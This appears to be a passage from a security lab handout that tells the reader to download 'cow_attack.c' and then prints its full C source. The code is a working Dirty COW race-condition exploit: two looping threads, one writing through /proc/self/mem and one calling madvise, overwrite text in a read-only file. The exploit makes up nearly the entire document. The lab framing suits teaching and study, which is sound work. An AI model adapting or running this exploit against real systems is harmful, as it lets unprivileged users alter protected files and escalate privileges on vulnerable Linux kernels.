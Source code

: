 Download `cow_attack.c` from the website and read the source code.

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```
